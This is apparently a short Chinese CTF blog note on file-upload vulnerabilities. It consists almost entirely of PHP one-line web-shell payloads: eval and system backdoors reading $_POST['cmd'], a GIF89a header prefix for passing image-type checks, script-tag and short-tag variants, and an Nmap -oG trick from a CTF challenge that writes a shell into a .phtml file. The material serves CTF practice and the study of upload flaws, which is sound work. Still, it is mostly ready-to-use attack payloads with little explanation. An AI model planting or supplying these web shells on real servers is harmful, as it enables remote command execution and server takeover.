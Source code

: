 ```yaml
---
title: 文件上传漏洞
date: 2024-10-10 15:35:50
tags: CTF
categories: CTF-Web
---
```


# 1.一句话木马

### PHP

 方便绕过开头可以加上GIF89a gif的文件头

1. ```
   GIF89a
   
   <?php @eval($_POST[cmd]); ?>
   如果有长度限制
   <?php eval($_GET[cmd]);
   ```

   ```
   GIF89a
   <script language="php">
   @eval($_POST['cmd']);phpinfo();
   </script>
   ```

   ```
   <?php @system($_POST[cmd]);?>
   
   eval执行的是php代码，system执行的是系统代码
   ```
   
   
   
2. 

```
<script language="php">@eval_r($_POST[cmd])</script>
```

3.[网鼎杯 2020 朱雀组]Nmap 1

Namp -oG将内容写入文件

短标签<?php?> 可以用<?=?>代替

```php
<?= @eval($_POST[cmd]); ?> -oG a.phtml
```

